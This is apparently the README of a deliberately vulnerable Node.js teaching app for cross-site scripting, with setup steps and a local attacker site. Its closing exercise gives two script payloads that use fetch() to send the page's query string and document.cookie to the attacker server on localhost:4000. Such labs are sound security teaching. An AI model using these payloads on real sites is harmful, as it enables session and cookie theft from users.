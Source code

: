 This repository contains a sample web application with Cross-Site Scripting (XSS) vulnerabilities and its attacker website.

---
### Technology

This project uses the following technologies:

-  [Node.js](https://nodejs.org/)

### Running the Application

2. Move to the root folder of the project (`xss-sample-app`) in your machine and install the dependencies by running the following command:

   ```shell
   npm install
   ```

3. To launch the web application, run the following command:

   ```shell
   npm start
   ```

4. Point your browser to [http://localhost:3000](http://localhost:3000) to access the sample web app.

5. To launch the attacker website, run the following command:

   ```shell
   npm run start-attacker
   ```

6. Point your browser to [http://localhost:4000](http://localhost:4000/) to access the attacker website


### Reflected XSS - Be the hacker

1. Inject the malicious code as a review:
`<script>fetch(`http://localhost:4000?data=${encodeURIComponent(window.location.search)}`)</script>`

2. Open the sample web app in another browser tap and insert a custom review and submit it.

3. How does the attacker website looks like after refreshing the attackers website?


### What if malicious code looks like:
`<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>`

